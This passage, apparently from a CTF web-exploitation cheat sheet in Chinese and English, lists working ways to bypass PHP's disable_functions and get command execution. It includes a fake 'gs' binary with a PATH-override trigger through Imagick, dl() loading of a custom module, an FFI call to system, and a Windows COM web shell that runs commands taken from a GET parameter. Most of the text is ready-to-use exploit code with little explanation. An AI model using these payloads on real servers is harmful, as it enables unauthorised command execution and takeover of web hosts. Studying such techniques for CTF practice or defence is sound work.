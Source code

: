     - 蓋`PATH` + ghostscript:
        - 造一個執行檔 gs

        ```cpp
        #include <stdlib.h>
        #include <string.h>
        int main() {
            unsetenv("PATH");
            const char* cmd = getenv("CMD");
            system(cmd);
            return 0;
        }
        ```

        ```php
        putenv('PATH=/tmp/mydir');
        putenv('CMD=/readflag > /tmp/mydir/output');
        chmod('/tmp/mydir/gs','0777');
        $img = new Imagick('/tmp/mydir/1.ept');
        ```
- dl()
    - 載入 module
    - `dl("rce.so")`
    - This function was removed from most SAPIs in PHP 5.3.0, and was removed from PHP-FPM in PHP 7.0.0.

- FFI
    - PHP 7.4 feature
    - preloading + ffi
    - e.g. [RCTF 2019 - nextphp](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/nextphp)

    ```php
    <?php
    $ffi = FFI::cdef("int system (const char* command);");
    $ffi->system("id");
    ```

- [FastCGI Extension](https://github.com/w181496/FuckFastcgi)

- Windows COM
    - 條件
        - `com.allow_dcom = true`
        - `extension=php_com_dotnet.dll`
    - PoC:

    ```php
    <?php
    $command = $_GET['cmd'];
    $wsh = new COM('WScript.shell'); // Shell.Application 也可
    $exec = $wsh->exec("cmd /c".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ```
